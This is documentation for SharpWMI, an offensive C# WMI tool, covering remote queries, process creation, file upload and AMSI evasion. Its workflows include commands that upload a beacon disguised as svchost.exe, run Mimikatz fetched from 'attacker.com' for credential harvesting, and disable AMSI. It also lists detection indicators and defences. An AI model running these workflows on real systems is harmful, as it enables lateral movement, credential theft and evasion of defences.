

```
  _____ _                   __        ____  __ ___
 / ____| |                  \ \      / /  \/  |_ _|
| (___ | |__   __ _ _ __ _ __\ \ /\ / /| |\/| || |
 \___ \| '_ \ / _` | '__| '_ \\ V  V / | |  | || |
 ____) | | | | (_| | |  | |_) |\_/\_/  |_|  |_|___|
|_____/|_| |_|\__,_|_|  | .__/
                        | |
                        |_|
```

## What is SharpWMI?

SharpWMI is a **C# implementation of various WMI functionality** that provides offensive security practitioners with a native toolkit for Windows Management Instrumentation operations. It enables local and remote WMI queries, remote process creation, VBScript execution, file uploads, and system enumeration—all through the Windows Management Instrumentation interface.

<Tip>
  SharpWMI was originally created by [@harmj0y](https://twitter.com/harmj0y) and has been enhanced by multiple contributors including Mariusz B. (mgeeky), Evi1cg, Steven Flores, and Justin Bui.
</Tip>

## Understanding WMI

Windows Management Instrumentation (WMI) is Microsoft's implementation of Web-Based Enterprise Management (WBEM), providing a standardized infrastructure for managing and monitoring Windows systems.

<CardGroup cols={2}>
  <Card title="Remote Execution" icon="terminal">
    Execute processes and scripts on remote systems via Win32_Process
  </Card>
  <Card title="System Enumeration" icon="magnifying-glass">
    Query system information, services, processes, and configurations
  </Card>
  <Card title="Event Subscriptions" icon="calendar">
    Create WMI event subscriptions for delayed or triggered execution
  </Card>
  <Card title="File Operations" icon="file-arrow-up">
    Upload files using WMI class properties as a data channel
  </Card>
</CardGroup>

### WMI Attack Surface



## Key Capabilities

<Tabs>
  <Tab title="Execution">
    **Remote Code Execution:**
    - Direct process creation via Win32_Process
    - VBScript execution through event subscriptions
    - Command output retrieval
    - MSI installation support
    - AMSI evasion capabilities
  </Tab>

  <Tab title="Enumeration">
    **System Information Gathering:**
    - WMI query execution (local and remote)
    - Logged-on users enumeration
    - Process listing with owner information
    - Firewall rule enumeration
    - Environment variable access
  </Tab>

  <Tab title="File Operations">
    **File Management:**
    - Upload files via WMI properties
    - Binary transfer without SMB
    - Execute uploaded payloads
    - Install MSI packages
  </Tab>

  <Tab title="Process Management">
    **Process Control:**
    - List running processes
    - Terminate processes by name or PID
    - Retrieve process owner information
    - Monitor process creation
  </Tab>
</Tabs>

## Available Actions

SharpWMI provides the following actions organized by category:

### Enumeration Actions

<CardGroup cols={2}>
  <Card title="query" icon="database" href="/ghostpack-docs/SharpWMI-mdx/actions/query">
    Execute WMI queries for system enumeration
  </Card>
  <Card title="loggedon" icon="users" href="/ghostpack-docs/SharpWMI-mdx/actions/loggedon">
    Enumerate logged-on users on remote systems
  </Card>
  <Card title="ps" icon="list" href="/ghostpack-docs/SharpWMI-mdx/actions/ps">
    List running processes with owner information
  </Card>
  <Card title="firewall" icon="shield" href="/ghostpack-docs/SharpWMI-mdx/actions/firewall">
    Enumerate firewall rules and ports
  </Card>
</CardGroup>

### Execution Actions

<CardGroup cols={2}>
  <Card title="exec" icon="terminal" href="/ghostpack-docs/SharpWMI-mdx/actions/exec">
    Create remote processes via WMI
  </Card>
  <Card title="executevbs" icon="file-code" href="/ghostpack-docs/SharpWMI-mdx/actions/executevbs">
    Execute VBScript through WMI event subscriptions
  </Card>
  <Card title="install" icon="box" href="/ghostpack-docs/SharpWMI-mdx/actions/install">
    Install MSI files remotely
  </Card>
</CardGroup>

### File and Process Actions

<CardGroup cols={2}>
  <Card title="upload" icon="upload" href="/ghostpack-docs/SharpWMI-mdx/actions/upload">
    Upload files via WMI properties
  </Card>
  <Card title="terminate" icon="xmark" href="/ghostpack-docs/SharpWMI-mdx/actions/terminate">
    Terminate processes by name or PID
  </Card>
</CardGroup>

### Environment Variable Actions

<CardGroup cols={3}>
  <Card title="getenv" icon="eye" href="/ghostpack-docs/SharpWMI-mdx/actions/getenv">
    Retrieve environment variables
  </Card>
  <Card title="setenv" icon="pencil" href="/ghostpack-docs/SharpWMI-mdx/actions/setenv">
    Set environment variable values
  </Card>
  <Card title="delenv" icon="trash" href="/ghostpack-docs/SharpWMI-mdx/actions/delenv">
    Delete environment variables
  </Card>
</CardGroup>

## Basic Usage Patterns

### Local Enumeration

Query the local system without requiring alternate credentials:

```bash
# Query local services
SharpWMI.exe action=query query="select * from win32_service"

# Query local processes
SharpWMI.exe action=query query="select * from win32_process"

# Query AntiVirus products
SharpWMI.exe action=query query="SELECT * FROM AntiVirusProduct" namespace="root\SecurityCenter2"
```

### Remote Enumeration

Query remote systems with optional credentials:

```bash
# Query remote system (current credentials)
SharpWMI.exe action=query computername=server.domain.com query="select * from win32_service"

# Query with alternate credentials
SharpWMI.exe action=query computername=server.domain.com query="select * from win32_service" username="DOMAIN\user" password="Password123!"

# Query multiple hosts
SharpWMI.exe action=query computername=server1,server2,server3 query="select * from win32_process"
```

### Remote Execution

Execute commands on remote systems:

```bash
# Basic remote execution
SharpWMI.exe action=exec computername=server.domain.com command="powershell.exe -enc ZQBj..."

# Execute with output retrieval
SharpWMI.exe action=exec computername=server.domain.com command="whoami" result=true

# Execute with AMSI evasion
SharpWMI.exe action=exec computername=server.domain.com command="powershell.exe -c Get-Process" amsi=disable result=true
```

## Common Arguments

All remote actions support the following common arguments:

<Tabs>
  <Tab title="Targeting">
    **Target Specification:**

    | Argument | Description |
    |----------|-------------|
    | `computername=HOST` | Target single remote host |
    | `computername=HOST1,HOST2,...` | Target multiple hosts (comma-separated) |
    | *(omit computername)* | Target localhost |
  </Tab>

  <Tab title="Authentication">
    **Credential Options:**

    | Argument | Description |
    |----------|-------------|
    | `username=DOMAIN\user` | Specify alternate username |
    | `password=Password123!` | Specify password (required with username) |
    | *(omit both)* | Use current user credentials |

    <Note>
      Both `username` and `password` must be provided together. You cannot specify one without the other.
    </Note>
  </Tab>

  <Tab title="Execution Options">
    **Execution Modifiers:**

    | Argument | Description | Applicable Actions |
    |----------|-------------|-------------------|
    | `amsi=disable` | Disable AMSI before execution | exec, executevbs, upload, install |
    | `result=true` | Retrieve command output | exec |
    | `namespace=X` | Specify WMI namespace | query |
  </Tab>
</Tabs>

## Typical Workflows

<AccordionGroup>
  <Accordion title="Domain Reconnaissance">
    ```bash
    # 1. Enumerate logged-on users across domain
    SharpWMI.exe action=loggedon computername=dc.domain.com,fileserver.domain.com,workstation.domain.com

    # 2. Query firewall rules on key systems
    SharpWMI.exe action=firewall computername=webserver.domain.com

    # 3. List processes on target systems
    SharpWMI.exe action=ps computername=admin-workstation.domain.com
    ```
  </Accordion>

  <Accordion title="Remote Execution Chain">
    ```bash
    # 1. Upload payload to target
    SharpWMI.exe action=upload computername=target.domain.com source="beacon.exe" dest="C:\Windows\temp\svchost.exe" amsi=disable

    # 2. Execute uploaded payload
    SharpWMI.exe action=exec computername=target.domain.com command="C:\Windows\temp\svchost.exe"

    # 3. Verify execution
    SharpWMI.exe action=ps computername=target.domain.com
    ```
  </Accordion>

  <Accordion title="Credential Harvesting">
    ```bash
    # 1. Execute Mimikatz via VBScript
    SharpWMI.exe action=executevbs computername=target.domain.com url="http://attacker.com/mimikatz.ps1" eventname="Update" amsi=disable

    # 2. Retrieve output via environment variable
    SharpWMI.exe action=getenv name=RESULT computername=target.domain.com
    ```
  </Accordion>

  <Accordion title="Stealthy Enumeration">
    ```bash
    # 1. Query network connections (Windows 10+)
    SharpWMI.exe action=query computername=target.domain.com query="Select LocalPort,OwningProcess from MSFT_NetTCPConnection" namespace="ROOT\StandardCIMV2"

    # 2. Enumerate software installations
    SharpWMI.exe action=query computername=target.domain.com query="SELECT * FROM Win32_Product"

    # 3. Check for scheduled tasks
    SharpWMI.exe action=query computername=target.domain.com query="SELECT * FROM Win32_ScheduledJob"
    ```
  </Accordion>
</AccordionGroup>

## Detection Considerations

<Warning>
  WMI operations generate telemetry that can be detected by defensive tools. Use appropriate operational security measures.
</Warning>

<AccordionGroup>
  <Accordion title="Host-Based Detection" icon="computer">
    **Windows Event Logs:**
    - Event ID 4688: Process creation (Win32_Process.Create)
    - Event ID 5857-5861: WMI activity
    - Event ID 5858: WMI permanent event subscriptions (executevbs action)
    - Sysmon Event ID 19-21: WMI event consumer creation

    **Registry Changes:**
    - AMSI evasion modifies `HKCU\Software\Microsoft\Windows Script\Settings`
    - WMI event subscriptions persist in WMI repository
  </Accordion>

  <Accordion title="Network Detection" icon="network-wired">
    - DCOM traffic on port 135 (RPC endpoint mapper)
    - Dynamic RPC ports for WMI communication
    - SMB traffic if using network shares
    - Unusual WMI query patterns
  </Accordion>

  <Accordion title="WMI-Specific Indicators" icon="list">
    - Creation of suspicious WMI classes (file upload)
    - ActiveScriptEventConsumer with VBScript payloads
    - Win32_Process creation from remote systems
    - Bulk WMI queries across multiple systems
    - WMI registry modifications for AMSI
  </Accordion>

  <Accordion title="Defensive Measures" icon="shield">
    - Monitor WMI event log (Microsoft-Windows-WMI-Activity/Operational)
    - Enable Sysmon with WMI activity rules
    - Alert on WMI event subscription creation
    - Monitor Win32_Process.Create invocations
    - Restrict WMI access via GPO/firewall rules
    - Implement WMI query auditing
  </Accordion>
</AccordionGroup>

## AMSI Evasion

SharpWMI includes AMSI evasion capabilities for execution actions:

<Note>
  AMSI evasion works by modifying the registry key `HKCU\Software\Microsoft\Windows Script\Settings\AmsiEnable` to disable AMSI for VBScript and PowerShell. The original value is restored after execution.
</Note>

Actions supporting AMSI evasion:
- `exec` (with `result=true`)
- `executevbs`
- `upload`
- `install`

**Usage:**
```bash
SharpWMI.exe action=exec computername=target.domain.com command="powershell -c Get-Process" amsi=disable result=true
```

The AMSI evasion code was contributed by Steven Flores (0xthirteen) from the SharpMove project.

## Prerequisites

<AccordionGroup>
  <Accordion title="Execution Requirements">
    - Windows operating system
    - .NET Framework 3.5 or later
    - Appropriate network access to target systems
  </Accordion>

  <Accordion title="Privilege Requirements">
    **Local Operations:**
    - Standard user privileges for local queries
    - Administrator for some system queries

    **Remote Operations:**
    - Local administrator on target system
    - WMI permissions on target
    - Network access to RPC/DCOM ports
  </Accordion>

  <Accordion title="Network Requirements">
    - Port 135 (RPC endpoint mapper)
    - Dynamic RPC ports (49152-65535 by default)
    - Port 445 (SMB) may be used for authentication
  </Accordion>
</AccordionGroup>

## Technical Background

<Accordion title="Win32_Process.Create vs Event Subscriptions">
  **Win32_Process.Create:**
  - Direct synchronous execution
  - Immediate process creation
  - Limited to command-line arguments
  - Used by `exec` action

  **WMI Event Subscriptions:**
  - Asynchronous delayed execution
  - Supports VBScript payloads
  - Can persist across reboots (if not cleaned up)
  - More complex detection footprint
  - Used by `executevbs` action
</Accordion>

<Accordion title="File Upload Mechanism">
  SharpWMI uploads files by:
  1. Creating a temporary WMI class with a string property
  2. Storing base64-encoded file bytes in the property
  3. Using PowerShell on the target to read from WMI and write to disk
  4. Cleaning up the temporary WMI class

  This avoids direct SMB file writes but requires PowerShell on the target.
</Accordion>

<Accordion title="Command Output Retrieval">
  When using `result=true` with the `exec` action:
  1. SharpWMI creates an environment variable with encoded command output
  2. The command is wrapped in PowerShell to capture output
  3. Output is XOR-encoded and stored in a WMI environment variable
  4. SharpWMI retrieves and decodes the output
  5. Environment variable is cleaned up

  This technique was contributed by Evi1cg (@Ridter).
</Accordion>

## Authors and Credits

| Contribution | Author |
|--------------|--------|
| Original SharpWMI implementation | [Will Schroeder @harmj0y](https://github.com/harmj0y) |
| WMI code-exec output idea | [Evi1cg @Ridter](https://github.com/Ridter) |
| AMSI evasion code (from SharpMove) | [Steven Flores 0xthirteen](https://github.com/0xthirteen) |
| Enhancements, VBS flexibility, file upload | [Mariusz B. / mgeeky @mariuszbit](https://github.com/mgeeky) |
| Install MSI files feature | [Justin Bui @slyd0g](https://github.com/slyd0g) |

## Next Steps

<CardGroup cols={2}>
  <Card title="Compilation Guide" icon="hammer" href="/ghostpack-docs/SharpWMI-mdx/compilation">
    Build SharpWMI from source
  </Card>
  <Card title="Usage Examples" icon="book" href="/ghostpack-docs/SharpWMI-mdx/usage">
    Practical usage scenarios and examples
  </Card>
  <Card title="WMI Queries" icon="database" href="/ghostpack-docs/SharpWMI-mdx/actions/query">
    Execute WMI queries for enumeration
  </Card>
  <Card title="Remote Execution" icon="terminal" href="/ghostpack-docs/SharpWMI-mdx/actions/exec">
    Create remote processes
  </Card>
</CardGroup>

## License

SharpWMI is licensed under the BSD 3-Clause license.

<Note>
  SharpWMI is part of the GhostPack suite of offensive security tools created by [@harmj0y](https://twitter.com/harmj0y).
</Note>
